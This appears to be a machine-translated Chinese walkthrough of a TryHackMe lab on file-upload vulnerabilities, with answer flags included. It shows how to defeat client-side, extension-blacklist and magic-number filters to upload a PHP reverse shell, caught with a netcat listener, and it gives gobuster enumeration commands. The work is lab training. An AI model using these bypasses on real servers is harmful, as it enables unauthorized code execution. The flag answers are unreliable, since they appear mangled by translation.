****

**删除该功能后，我们再次单击“转发”,直到网站完成加载，现在可以自由上传任何类型的文件到网站:**

****

**这里值得注意的是，默认情况下，Burpsuite 不会拦截网页正在加载的任何外部 Javascript 文件。如果您需要编辑一个不在正在加载的主页面中的脚本，您需要转到 Burpsuite 窗口顶部的“选项”选项卡，然后在“拦截客户端请求”部分下，编辑第一行的条件以删除`^js$|`:**

****

**我们已经通过在页面加载之前拦截并删除它绕过了这个过滤器，但是让我们通过上传一个具有合法扩展名和 MIME 类型的文件，然后用 Burpsuite 拦截并纠正上传来尝试这样做。**

**在重新加载网页以将过滤器放回原位后，让我们将之前使用的反向 shell 重命名为“shell.jpg”。当 MIME 类型(基于文件扩展名)自动检查出来时，客户端过滤器让我们的有效负载通过，而没有抱怨:**

****

**我们将再次激活我们的 Burpsuite 拦截，然后单击“上传”并捕获请求:**

****

**注意到我们的 PHP shell 的 MIME 类型目前是`image/jpeg`。我们将把它改为`text/x-php`，文件扩展名从`.jpg`改为`.php`，然后将请求转发给服务器:**

****

**现在，当我们导航到已经设置了 netcat 监听器的[http://demo.uploadvulns.thm/uploads/shell.php](http://demo.uploadvulns.thm/uploads/shell.php)时，我们接收到来自 shell 的连接！**

****

**我们已经详细介绍了两种绕过客户端文件上传过滤器的方法。现在是你自己尝试一下的时候了！导航到 [java.uploadvulns.thm](/ctf-and-walkthrough-writeups/tryhackme/-/blob/master/java.uploadvulns.thm) ，绕过过滤器得到一个反向 shell。请记住，并不是所有的客户端脚本都是内联的！如前所述，Gobuster 将是一个非常好的起点——上传目录名称将随着每个新的挑战而改变。**

```
window.onload = function(){
	var upload = document.getElementById("fileSelect");
	var responseMsg = document.getElementsByClassName("responseMsg")[0];
	var errorMsg = document.getElementById("errorMsg");
	var uploadMsg = document.getElementById("uploadtext");
	upload.value="";
	upload.addEventListener("change",function(event){
		var file = this.files[0];
		responseMsg.style = "display:none;";
		if (file.type != "image/png"){
			upload.value = "";
			uploadMsg.style = "display:none;";
			error();
		} else{
			uploadMsg.innerHTML = "Chosen File: " + upload.value.split(/(\\|\/)/g).pop();
			responseMsg.style="display:none;";
			errorMsg.style="display:none;";
			success();
		}
	});
};
```

**nc -lnvp 9001**

****问题 1** 。/var/www/中的标志是什么？**

> ****答案:THM { ndllzdqxnjjjote 0 ywnhzgy 3 yjljnme 2 }****

# **任务 8 绕过服务器端过滤:文件扩展名**

**是时候让事情更上一层楼了！**

**客户端过滤器很容易被绕过——你可以看到它们的代码，即使它已经被混淆，需要在你阅读之前进行处理；但是当你看不到或者操作不了代码的时候会发生什么呢？嗯，那是服务器端的过滤器。简而言之，我们必须进行大量的测试，以建立一个概念，什么是允许的，什么是不允许的，然后逐渐地将符合限制的有效载荷放在一起。**

**对于这项任务的第一部分，我们将看看一个使用文件扩展名黑名单作为服务器端过滤器的网站。有各种不同的方式可以编码，我们使用的旁路取决于这一点。在现实世界中，我们看不到这方面的代码，但在本例中，它将包含在这里:**

```
<?php
    //Get the extension
    $extension = pathinfo($_FILES["fileToUpload"]["name"])["extension"];
    //Check the extension against the blacklist -- .php and .phtml
    switch($extension){
        case "php":
        case "phtml":
        case NULL:
            $uploadFail = True;
            break;
        default:
            $uploadFail = False;
    }
?>
```

**在这种情况下，代码查找最后一个句点(。)并使用它来确认扩展名，这就是我们在这里要绕过的。代码可能工作的其他方式包括:搜索文件名中的第一个句点，或者在每个句点处拆分文件名，并检查是否出现任何黑名单中的扩展名。我们稍后将讨论后一种情况，但同时，让我们把注意力集中在这里的代码上。**

**我们可以看到代码过滤掉了`.php`和`.phtml`扩展名，所以如果我们想上传一个 PHP 脚本，我们必须找到另一个扩展名。PHP 的[维基百科页面](https://en.wikipedia.org/wiki/PHP)给了我们一堆可以尝试的选项——其中许多绕过了过滤器(过滤器只屏蔽了前面提到的两个扩展名),但是似乎服务器被配置成不识别它们为 PHP 文件，如下例所示:**

****

**在撰写本文时，这实际上是 Apache2 服务器的默认设置；但是，sysadmin 可能已经更改了默认配置(或者服务器可能已经过时)，所以很值得一试。**

**最终我们发现**。phar** 扩展绕过了过滤器——并且起作用了——从而给了我们外壳:**

****

**让我们看看另一个例子，使用不同的过滤器。这一次我们将完全黑箱化:即没有源代码。**

**同样，我们有自己的上传表单:**

****

**好的，我们从完全合法的上传开始。让我们试着上传之前的`spaniel.jpg`图片:**

****

**嗯，这告诉我们至少 JPEGS 是被接受的。让我们去找一个我们很确定会被拒绝的吧(`shell.php`):**

****

**不能说这是意料之外的。**

**从这里，我们进一步列举，尝试上面的技术，只是一般试图得到一个过滤器将接受或拒绝的想法。**

**在这种情况下，我们发现没有既执行又不过滤的 shell 扩展，所以又回到了绘图板。**

**在前面的例子中，我们看到代码使用了`pathinfo()` PHP 函数来获取`.`之后的最后几个字符，但是如果它过滤输入的方式略有不同，会发生什么呢？**

**让我们试着上传一个名为`shell.jpg.php`的文件。我们已经知道 JPEG 文件是可以接受的，那么如果过滤器只是检查。jpg 文件扩展名在输入的某个地方？**

**这种过滤器的伪代码可能如下所示:**

```
ACCEPT FILE FROM THE USER -- SAVE FILENAME IN VARIABLE userInput
IF STRING ".jpg" IS IN VARIABLE userInput:
    SAVE THE FILE
ELSE:
    RETURN ERROR MESSAGE
```

**当我们试图上传我们的文件时，我们得到一个成功的消息。导航到`/uploads`目录，确认有效载荷已成功上传:**

****

**激活它，我们收到我们的外壳:**

****

**这绝不是与文件扩展名相关的上传漏洞的详尽列表。正如黑客攻击中的所有事情一样，我们希望利用他人编写的代码中的缺陷；这段代码很可能是专门为手头的任务编写的。这是从这项任务中得到的真正重要的一点:对于编程来说，有一百万种不同的方法来实现相同的功能——您的开发必须适合手边的过滤器。绕过任何类型的服务器端过滤器的关键是枚举和查看什么是允许的，以及什么是阻止的；然后尝试制作一个有效载荷，它可以通过过滤器正在寻找的标准。**

**现在轮到你了。现在您已经知道该如何操作了——找出并绕过过滤器来上传并激活一个 shell。你的旗帜在`/var/www/`。您正在访问的网站是`annex.uploadvulns.thm`。**

**要知道这个任务也是第一次实现了随机命名方案。现在你应该不会有任何问题找到你的 shell，但是请注意目录并不总是可索引的…**

**[http://annex.uploadvulns.thm/privacy/](http://annex.uploadvulns.thm/privacy/)**

**[annex . uploadvulns . thm/privacy/2020–11–16–20–11–29-PHP-reverse-shell . jpg . PHP 5](/ctf-and-walkthrough-writeups/tryhackme/-/blob/master/annex.uploadvulns.thm/privacy/2020-11-16-20-11-29-php-reverse-shell.jpg.php5)**

```
nc -lnvp 9001
```

**/var/www/中的标志是什么？**

> ****答案:THM { mgeyyzjiymi 3 ody m2 flntnknjzjyjfl }****

# **任务 9 绕过服务器端过滤:幻数**

**我们已经了解了服务器端的扩展过滤，但是让我们借此机会看看如何将幻数检查实现为服务器端的过滤器。**

**如前所述，幻数被用作更准确的文件标识符。文件的幻数是一串十六进制数字，并且总是文件中的第一个数字。了解了这一点，就有可能使用幻数来验证文件上传，只需读取最初的几个字节，然后将它们与白名单或黑名单进行比较。请记住，这种技术对基于 PHP 的 web 服务器非常有效；但是，对于其他类型的 web 服务器，它有时会失败。**

**让我们看一个例子。像往常一样，我们有一个上传页面:**

****

**正如所料，如果我们上传我们的标准 shell.php 文件，我们得到一个错误；然而，如果我们上传一个 JPEG 文件，网站就没问题了。到目前为止一切正常。**

**从之前的上传尝试中，我们知道 JPEG 文件是可以接受的，所以让我们尝试将 JPEG 幻数添加到我们的`shell.php`文件的顶部。快速浏览一下维基百科上的[文件签名列表，我们会发现 JPEG 文件有几种可能的幻数。我们在这里使用哪个应该无关紧要，所以我们只选择一个(`FF D8 FF DB`)。我们可以将这些数字的 ASCII 表示(ÿøÿû)直接添加到文件的顶部，但是直接使用十六进制表示通常更容易，所以让我们来介绍一下这种方法。](https://en.wikipedia.org/wiki/List_of_file_signatures)**

**在我们开始之前，让我们使用`Linux`文件命令来检查我们的 shell 的文件类型:**

****

**正如所料，该命令告诉我们文件类型是 PHP。在我们继续解释时，请记住这一点。**

**我们可以看到我们选择的幻数有四个字节长，所以让我们打开反向 shell 脚本，在第一行添加四个随机字符。这些字符无关紧要，因此在本例中，我们只使用四个“A ”:**

****

**保存文件并退出。接下来，我们将在 hex editor(Kali 上默认提供)中重新打开该文件，或者任何其他允许您以 hex 格式查看和编辑 shell 的工具。在 hexeditor 中，文件如下所示:**

****

**请注意红框中的四个字节:它们都是 41，这是大写字母“A”的十六进制代码，正是我们之前在文件顶部添加的内容。**

**将它改为我们之前为 JPEG 文件找到的幻数:`FF D8 FF DB`**

****

**现在，如果我们保存并退出文件(Ctrl + x)，我们可以再次使用 file，并看到我们已经成功地欺骗了我们的 shell 的文件类型:**

****

**完美。现在让我们尝试上传修改后的外壳，看看它是否绕过了过滤器！**

****

**现在我们已经做到了——我们绕过了服务器端的幻数过滤器，收到了一个反向 shell。**

**前往`magic.uploadvulns.thm` -是最后一次迷你挑战的时候了。**

**这将是你在任务十一的挑战之前必须黑掉的最后一个示例网站；因此，我们再次提高了基本安全的水平。上一个任务中的网站实现了一个更改的命名方案，将上传的日期和时间添加到文件名中。这项任务不会这样做，以保持它相对容易；但是，目录索引已关闭，因此您将无法导航到包含上传内容的目录。相反，您需要使用 shell 的 URI 直接访问它。**

**绕过幻数过滤器上传一个外壳。找到上传的外壳的位置并激活它。您的旗帜在`/var/www/`中。**

**请只发 gif！**

**47 49 46 38 37 61**

**GIF89a**

```
gobuster dir -u [http://magic.uploadvulns.thm/](http://magic.uploadvulns.thm/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**/图形(状态:301)
/资产(状态:301)**

```
nc -lnvp 9001
```

**从/var/www/**

> ****答案:THM { mwy 5 zgu 4 nze 0 zdlhnje 1 ngm 4 zthjzdjh }****

# **任务 10 示例方法**

**我们现在已经看到了各种不同类型的过滤器—客户端和服务器端—以及文件上传攻击的一般方法。在下一个任务中，您将需要完成一个黑盒文件上传挑战，因此，让我们借此机会更深入地讨论一个解决此类挑战的示例方法。您可以开发自己的替代方法，但是，如果您是这种攻击的新手，您可能会发现下面的信息很有用。**

**我们将把这看作一个逐步的过程。假设我们得到了一个要进行安全审计的网站。**

1.  **我们要做的第一件事是把网站作为一个整体来看。使用浏览器扩展，比如前面提到的 Wappalyzer(或者手动)，我们将寻找 web 应用程序可能是用什么语言和框架构建的。请注意，Wappalyzer 并不总是 100%准确。手动枚举的良好开端是向网站发出请求，然后用 Burpsuite 拦截响应。像`server`或`x-powered-by`这样的头可以用来获得关于服务器的信息。我们还会寻找攻击的媒介，比如上传页面。**
2.  **找到一个上传页面后，我们将进一步检查它。查看客户端脚本的源代码，以确定是否有任何客户端过滤器要绕过，这将是一个好的开始，因为这完全在我们的控制之下。**
3.  **然后我们会尝试一个完全无害的文件上传。从这里我们可以看到我们的文件是如何被访问的。换句话说，我们能在上传文件夹中直接访问它吗？是不是嵌在某页某处？网站的命名方案是什么？如果位置不明显，这就是 Gobuster 等工具的用武之地。这一步非常重要，因为它不仅提高了我们对所攻击的虚拟环境的了解，还为我们提供了一个基线“已接受”文件，我们可以在此基础上进行进一步的测试。**

*   **这里一个重要的 Gobuster 开关是-x 开关，它可以用来查找具有特定扩展名的文件。例如，如果您将`-x php,txt,html`添加到 Gobuster 命令中，该工具会将`.php`、`.txt`和`.html`添加到所选单词列表中的每个单词，一次添加一个。如果你上传了一个有效载荷，而服务器改变了上传文件的名称，这将非常有用。**

1.  **确定了我们上传的文件可以被访问的方式和位置后，我们将尝试恶意的文件上传，绕过我们在第二步中发现的任何客户端过滤器。我们希望我们的上传被服务器端的过滤器停止，但是它给出的错误信息对我们决定下一步非常有用。**

**假设我们的恶意文件上传已经被服务器阻止，这里有一些方法来确定哪种服务器端过滤器可能已经就位:**

1.  **如果你能成功上传一个文件扩展名完全无效的文件(例如**testing image . invalidfileextension**)，那么很有可能服务器正在使用扩展名黑名单过滤掉可执行文件。如果上传失败，那么任何扩展过滤器都将在白名单上运行。**
2.  **尝试重新上传您最初接受的无害文件，但这一次将文件的幻数改为您希望被过滤的值。如果上传失败，那么你知道服务器正在使用一个基于幻数的过滤器。**
3.  **与前一点一样，尝试上传您的无害文件，但是使用 Burpsuite 拦截请求，并将上传的 MIME 类型更改为您希望过滤的类型。如果上传失败，那么您知道服务器正在基于 MIME 类型进行过滤。**
4.  **枚举文件长度过滤器就是上传一个小文件，然后上传越来越大的文件，直到你达到过滤器。到那时，你就会知道什么是可接受的极限。如果你非常幸运，那么原始上传的错误信息可能会直接告诉你大小限制是多少。请注意，一个小的文件长度限制可能会阻止您上传我们到目前为止一直在使用的反向 shell。**

**你现在应该已经准备好接受任务 11 的挑战了**

# **任务 11 挑战**

**挑战时间到了！**

**前往 **jewel.uploadvulns.thm** 。**

**把你在这个房间里学到的东西用在这台机器上得到一个外壳。像往常一样，你的旗帜在`/var/www/`里。请记住，这个挑战将是你到目前为止所学知识的积累，因此可能要绕过多个过滤器。附带的单词表可能会有帮助。还要记住，不是所有的网络服务器都有 PHP 后端...**

**如果你需要帮助，这里有一系列提示。**

**此外，此处有本次挑战[的完整视频演示。](https://youtu.be/8UPXibv_s1A)**

**黑掉机器，从/var/www/**

```
gobuster dir -u [http://jewel.uploadvulns.thm/](http://jewel.uploadvulns.thm/) -w /usr/share/wordlists/dirb/big.txt  -t 250
```

**隐藏目录**

**/内容(状态:301)
/管理(状态:200)
/管理(状态:200)
/管理(状态:200)
/资产(状态:301)
/内容(状态:301)
/模块(状态:301)**

## **硬石膏**

```
HTTP/1.1 200 OK
Server: nginx/1.17.6
Date: Mon, 16 Nov 2020 22:27:20 GMT
Content-Type: application/javascript; charset=UTF-8
Content-Length: 1579
Connection: close
X-Powered-By: Express
Access-Control-Allow-Origin: *
Accept-Ranges: bytes
Cache-Control: public, max-age=0
Last-Modified: Fri, 03 Jul 2020 22:16:52 GMT
ETag: W/"62b-17316c0f820"$(document).ready(function(){let errorTimeout;const fadeSpeed=1000;function setResponseMsg(responseTxt,colour){$("#responseMsg").text(responseTxt);if(!$("#responseMsg").is(":visible")){$("#responseMsg").css({"color":colour}).fadeIn(fadeSpeed)}else{$("#responseMsg").animate({color:colour},fadeSpeed)}clearTimeout(errorTimeout);errorTimeout=setTimeout(()=>{$("#responseMsg").fadeOut(fadeSpeed)},5000)}$("#uploadBtn").click(function(){$("#fileSelect").click()});$("#fileSelect").change(function(){const fileBox=document.getElementById("fileSelect").files[0];const reader=new FileReader();reader.readAsDataURL(fileBox);reader.onload=function(event){const text={success:"File successfully uploaded",failure:"No file selected",invalid:"Invalid file type"};$.ajax("/",{data:JSON.stringify({name:fileBox.name,type:fileBox.type,file:event.target.result}),contentType:"application/json",type:"POST",success:function(data){let colour="";switch(data){case "success":colour="green";break;case "failure":case "invalid":colour="red";break}setResponseMsg(text[data],colour)}})}})});
```

****Gobuster****

```
gobuster dir -u [http://jewel.uploadvulns.thm/content](http://jewel.uploadvulns.thm/content) -w UploadVulnsWordlist.txt -t 250 -x jpg
```

**/ABH.jpg(状态:200)
/LKQ.jpg(状态:200)
/SAD.jpg(状态:200)
/UAD.jpg(状态:200)**

```
nc -lnvp 9001
```

> ****Flag:THM { nzrlytuwntizodmwmwzhmzbiy 2 jlzwu 2 }****

**你可以在:
**LinkedIn:-**[https://www.linkedin.com/in/shamsher-khan-651a35162/](https://www.linkedin.com/in/shamsher-khan-651a35162/)
**Twitter:-**[https://twitter.com/shamsherkhannn](https://twitter.com/shamsherkhannn)
**Tryhackme:-**[https://tryhackme.com/p/Shamsher](https://tryhackme.com/p/Shamsher)**

****

**如需更多演练，请在出发前继续关注…** 

**访问我的其他演练:-**

**感谢您花时间阅读我的演练。
如果你觉得有用，请点击👏按钮👏(高达 40 倍)并分享
它来帮助其他有类似兴趣的人！+随时欢迎反馈！**